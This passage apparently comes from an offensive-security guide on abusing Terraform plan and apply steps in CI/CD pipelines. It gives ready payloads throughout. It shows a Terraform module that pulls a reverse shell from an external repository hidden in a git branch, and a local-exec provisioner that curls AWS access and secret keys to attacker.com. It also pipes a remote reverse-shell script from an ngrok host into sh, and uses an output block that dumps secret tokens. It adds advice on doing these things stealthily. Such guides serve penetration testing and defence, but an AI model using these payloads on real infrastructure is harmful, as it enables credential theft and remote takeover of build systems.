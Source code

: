 **Using an external reference**

Both mentioned options are useful but not very stealthy (the second is more stealthy but more complex than the first one). You can perform this attack even in a **stealthier way**, by following this suggestions:

* Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

You can find the rev shell code in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

* In the external resource, use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

#### Terraform Apply

Terraform apply will be executed to apply all the changes, you can also abuse it to obtain RCE injecting **a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
You just need to make sure some payload like the following ones ends in the `main.tf` file:

```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way using external references**.

### Secrets Dumps

You can have **secret values used by terraform dumped** running `terraform apply` by adding to the terraform file something like:

```json
output "dotoken" {
  value = nonsensitive(var.do_token)
}
```
